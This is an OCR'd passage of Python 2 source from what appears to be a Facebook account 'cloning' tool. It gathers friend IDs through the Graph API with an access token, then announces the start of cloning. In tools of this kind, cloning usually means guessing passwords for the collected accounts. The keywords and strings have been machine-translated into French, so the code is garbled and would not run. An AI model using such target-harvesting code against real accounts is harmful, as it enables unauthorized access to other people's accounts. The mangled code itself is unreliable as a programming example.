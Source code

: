 	print "\ 033 [1; 97m- • ◈ • - \ 033 [1; 91m> \ 033 [1; 91m0. \ 033 [1; 91m> _ <Retour"
	pilih_super ()

def pilih_super ():
	peak = raw_input ("\ n \ 033 [1; 91m ^. ^ Choisissez une option >>> \ 033 [1; 95m")
	si pic == "":
		imprimer "\ x1b [1; 91mRemplir correctement"
		pilih_super ()
	pic elif == "1":
		os.system ('effacer')
		logo imprimé
		imprimer "\ 033 [1; 97m • ◈ • ══════ • ◈ • \ 033 [1; 91mYousuf Alzadjali \ 033 [1; 97m • ◈ • ══════ • ◈ •"
		jalan ('\ 033 [1; 91mGetting IDs \ 033 [1; 91m ...')
		r = requests.get ("https://graph.facebook.com/me/friends?access_token=" + toket)
		z = json.loads (r.text)
		pour s dans z ['data']:
			id.append (s ['id'])
	pic elif == "2":
		os.system ('effacer')
		logo imprimé
		idt = raw_input ("\ 033 [1; 95m [• ◈ •] \ 033 [1; 91mEnter ID \ 033 [1; 95m: \ 033 [1; 95m")
		imprimer "\ 033 [1; 92m • ◈ • ══════ •• ◈ • \ 033 [1; 91mYousufAlzadjali \ 033 [1; 95m • ◈ • ══════ •• ◈ •"
		essayer:
			jok = requests.get ("https://graph.facebook.com/" + idt + "? access_token =" + toket)
			op = json.loads (jok.text)
			print "\ 033 [1; 91mNom \ 033 [1; 95m: \ 033 [1; 95m" + op ["nom"]
		sauf KeyError:
			print "\ x1b [1; 91mID introuvable!"
			raw_input ("\ n \ 033 [1; 95m [\ 033 [1; 91mBack \ 033 [1; 95m]")
			super()
		print "\ 033 [1; 91mGetting IDs \ 033 [1; 97m ..."
		r = requests.get ("https://graph.facebook.com/" + idt + "/ amis? access_token =" + toket)
		z = json.loads (r.text)
		pour i dans z ['data']:
			id.append (i ['id'])
	pic elif == "0":
		menu()
	autre:
		imprimer "\ x1b [1; 91mRemplir correctement"
		pilih_super ()
	
	print "\ 033 [1; 36; 40m [✺] Nombre total d'ID: \ 033 [1; 94m" + str (len (id))
	jalan ('\ 033 [1; 34; 40m [✺] Veuillez patienter ...')
	titik = ['. ',' .. ',' ... ']
	pour o in titik:
		print ("\ r \ 033 [1; 32; 40m [✺] Clonage \ 033 [1; 93m" + o) ,; sys.stdout.flush (); time.sleep (1)
	print "\ n \ 033 [1; 94m ❈ \ x1b [1; 91mPour arrêter le processus appuyez sur CTRL + Z \ 033 [1; 94m ❈"
	imprimer "\ 033 [1; 92m ● ══════════════════◄►══════════════════ ●"
